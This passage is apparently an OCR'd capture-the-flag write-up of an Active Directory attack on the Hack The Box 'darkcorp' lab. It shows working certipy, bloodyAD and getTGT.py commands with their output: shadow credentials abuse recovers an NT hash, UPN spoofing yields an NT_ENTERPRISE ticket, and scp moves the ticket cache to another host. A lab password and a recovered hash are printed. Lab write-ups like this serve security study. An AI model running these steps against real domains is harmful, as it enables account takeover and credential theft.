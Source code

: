**Phase 1: GenericWrite → NT Hash Extraction via PKINIT Abuse**

**Step 1.1: Generate Shadow Credentials**

Using **`certipy shadow auto`** (single-command PKINIT attack):

```bash
certipy-ad shadow auto -username john.w@darkcorp.htb -password 'Pack_Beneath_Solid9!'  -account angela.w -dc-ip 172.16.20.1

```

**Output Analysis:**

```
[*] Targeting user 'angela.w'
[*] Generating certificate                           # RSA keypair + cert
[*] Certificate generated
[*] Generating Key Credential                        # msDS-KeyCredentialLink
[*] Key Credential generated with DeviceID '6c2ace67-b61b-b96f-4d38-3fb08c5fdade'
[*] Adding Key Credential to 'angela.w'              # LDAP write via GenericWrite
[*] Successfully added Key Credential
[*] Authenticating as 'angela.w' with certificate    # PKINIT TGT
[*] Got TGT
[*] Saved credential cache to 'angela.w.ccache'
[*] Trying to retrieve NT hash for 'angela.w'        # DCSync via TGT
[*] NT hash for 'angela.w': 957246c8137069bca672dc6aa0af7c7a
[*] Restoring original Key Credentials               # Cleanup

```

**Result:** **`957246c8137069bca672dc6aa0af7c7a`** (ANGELA.W NT hash) **in 8 seconds!**

---

**Phase 2: UPN Spoofing + NT_ENTERPRISE TGT**

**Step 2.1: Spoof UPN to Linux Principal**

```bash
bloodyAD --host DC-01.darkcorp.htb -u john.w -p 'Pack_Beneath_Solid9!' -d darkcorp.htb --dc-ip 172.16.20.1 set object angela.w userPrincipalName -v angela.w.adm

```

**Step 2.2: Request NT_ENTERPRISE TGT**

```bash
getTGT.py darkcorp.htb/angela.w.adm -hashes :957246c8137069bca672dc6aa0af7c7a -principalType NT_ENTERPRISE -dc-ip 172.16.20.1
[*] Saving ticket in angela.w.adm.ccache

```

**Transfer to Victim:**

```bash
scp angela.w.adm.ccache ebelford@drip.htb:/tmp/
```
